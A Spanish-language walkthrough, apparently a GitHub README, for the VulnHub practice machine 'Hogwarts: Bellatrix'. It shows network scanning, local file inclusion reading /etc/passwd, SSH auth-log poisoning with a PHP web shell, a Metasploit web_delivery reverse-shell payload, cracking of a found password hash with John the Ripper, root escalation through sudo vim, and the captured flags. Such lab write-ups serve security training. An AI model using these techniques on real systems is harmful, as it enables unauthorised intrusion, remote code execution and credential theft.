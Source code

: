 <h1 align="center">
<br>
  <img src="https://static.wikia.nocookie.net/esharrypotter/images/1/14/BellatrixLestrange.png/revision/latest?cb=20120917112905" alt="Front-End Checklist" width="200">
  <br>
  Hogwarts: Bellatrix
  <br>
</h1>

<h4 align="center">Maquina creada por <img src="https://img.icons8.com/android/344/twitter.png" alt="Front-End Checklist" width="12">@BertrandLorent9</h4>
<h4 align="center">Aquí puedes descargarte la <a href="https://www.vulnhub.com/entry/hogwarts-bellatrix,609/">página web</a> y ver una descripción de ella</h4>

---

# Índice

- [Recopilación de información](#recopilación-de-información)
  - [Nmap](#nmap)
  - [Web](#web)
- [Búsqueda de vulnerabilidades](#búsqueda-de-vulnerabilidades)
  - [Web](#web-1)
- [Explotación de vulnerabilidades](#explotación-de-vulnerabilidades)
  - [Command Injection](#command-injection)
  - [SSH Log](#ssh-log)
- [Post-explotación](#post-explotación)
  - [Recopilación de información](#recopilación-de-información-1)
  - [Movimiento Lateral](#movimiento-lateral)
  - [Búsqueda de vulnerabilidades](#búsqueda-de-vulnerabilidades-1)
       - [SUDO -L](#sudo--l)
  - [Explotación de vulnerabilidades](#explotación-de-vulnerabilidades-1)
       - [SUDO VIM](#sudo-vim)
- [Información Adicional](#información-adicional)


---

## Recopilación de información

Aquí veremos que esta conectado a la subred, los puerto abiertos, las paginas web, etc.

### Nmap

Veremos que redes estan conectadas a esta subred con este comando:

```nmap -sP 192.168.221.0/24```

Para ver los puertos abiertos que tiene la red utilizaremos este comando:

```nmap -sV -sC 192.168.221.6```

### Web

Esta es la página web que hemos encontrao, como vemos tiene un .php escondido:

<img src="https://i.gyazo.com/92dbe9567d0231df1554eeb910b3fe4d.png">


## Búsqueda de vulnerabilidades

### Web

Si usamos en mi caso **Ctrl+U** para ver el codigo fuente podemos encontrar una funcion **get** y un texto:

<img src="https://i.gyazo.com/1e1d112e282227f71c083812fea4911f.png">

## Explotación de vulnerabilidades

### Command Injection

Ahora explotaremos la vulnerabilidad de la funcion get añadiendole ```?file=```

<img src="https://i.gyazo.com/bf0399383f893584784b37dfe41fefc9.png">

> Imagen de command injection con /etc/passwd

### SSH Log

Gracias a esta [página web](https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/) consegui tener privilegios de user.

Lo primero que haremos es leer el archivo ```/var/log/auth.log``` para ver si los logins fallan o aciertan en la conexión con el servidor web.

Procederemos ha poner un **codigo malicioso con php** en la conexion ssh para poder ejecutar comandos del sistema como si fuese el cmd o la terminal:

```ssh '<?php system($_GET['c']); ?>'@192.168.221.6```

Lo siguiente es añadir a la url ```?file=/var/log/auth.log&c=``` para poder ejecutar comandos.

Ahora explotaremos la vulnerabilidad para ser user.

Lo primero iremos al metasploit y seguiremos estos comandos para crear u nscript y conseguir ser user.
```
use exploit/multi/script/web_delivery
msf exploit (web_delivery)> set payload php/meterpreter/reverse_tcp
msf exploit (web_delivery)> set lhost 192.168.1.123
msf exploit (web_delivery)>set srvport 8081
msf exploit (web_delivery)>exploit
```
Esto no creara un payload que meteremos en la url escrita anteriormente y nos crara un session en meterpreter.

Por ahora somos usuario **bellatrix**

## Post-explotación

Aquí tenemos la primera flag: **user: {69e0f71f25ece4351e4d73af430bec43}**

## Recopilación de información

Volveemos a recopilar toda la informacion possible que podamos encontrar.

En la carpeta ```/var/www/html/``` encontramos una carpeta muy peculiar iremos a ella para ver que contiene:

La carpeta se llama ```c2VjcmV0cw==``` que significa en base64 **secrets**

En esta carpeta procederemos ha hacer el comando ```ls -a``` para ver toanto como los archivos ocultos como los que estan a la vista.

Podemos ver que hay un archivo llamado ```Swordofgryffindor``` y otro ```.secret.dic```.

Dentro del archivo ```Swordofgryffindor``` encontramos esto:
```
lestrange:$6$1eIjsdebFF9/rsXH$NajEfDYUP7p/sqHdyOIFwNnltiRPwIU0L14a8zyQIdRUlAomDNrnRjTPN5Y/WirDnwMn698kIA5CV8NLdyGiY0
```
Y en el ```.secret.dic``` podemos ver que es un diccionario.

## Movimiento Lateral

Lo que procedemos ha hacer es crackear ese hash encontrado anteriormente y pasarle el diccionario tambien encontrado antes.

Utilizaremos el [John the Ripper]https://www.openwall.com/john/) para crackearlo:
```john --wordlist=hp.dic hash```

> **hp.dic** es el diccionario y **hash** es el hash

Actualmente somos usuario **lestrange**

## Búsqueda de vulnerabilidades

### SUDO -L

Para ver que puede ejecutar este usuario como root usaremos el comando ```sudo -l```

El resultado es este:
```
(ALL : ALL) NOPASSWD: /usr/bin/vim
```

## Explotación de vulnerabilidades

### SUDO VIM

Al ver esto iremos a esta [página web]https://gtfobins.github.io/gtfobins/vim/#sudo) para ver como podemos explotar esta vulnerabilidad y ser **root**

Encontramos un payload que no ayudara a escalar privilegios:

```sudo /usr/bin/vim -c ':!/bin/sh'```

Gracias a esto conseguirmos ser **root**

Y aquí tenemos la segunda flag:
```
 ____       _ _       _        _
 |  _ \     | | |     | |      (_)
 | |_) | ___| | | __ _| |_ _ __ ___  __
 |  _ < / _ \ | |/ _` | __| '__| \ \/ /
 | |_) |  __/ | | (_| | |_| |  | |>  <
 |____/ \___|_|_|\__,_|\__|_|  |_/_/\_\




  _               _
 | |             | |
 | |     ___  ___| |_ _ __ __ _ _ __   __ _  ___
 | |    / _ \/ __| __| '__/ _` | '_ \ / _` |/ _ \
 | |___|  __/\__ \ |_| | | (_| | | | | (_| |  __/
 |______\___||___/\__|_|  \__,_|_| |_|\__, |\___|
                                       __/ |
                                      |___/



root{ead5a85a11ba466011fced308d460a76}
```
## Información Adicional

Páginas web utilizadas:

- [RCE SSH LOG](https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/) - Ejecucion de codigo remoto con Local File Inclusion y envenenamiento del SSH Log.

- [John the Ripper](https://www.openwall.com/john/) - Crackear contraseñas con un diccionario.

- [VIM](https://gtfobins.github.io/gtfobins/vim/#sudo) - Enumeración de escalada de privilegios.


**[⬆ back to top](#-----hogwarts-bellatrix-)**
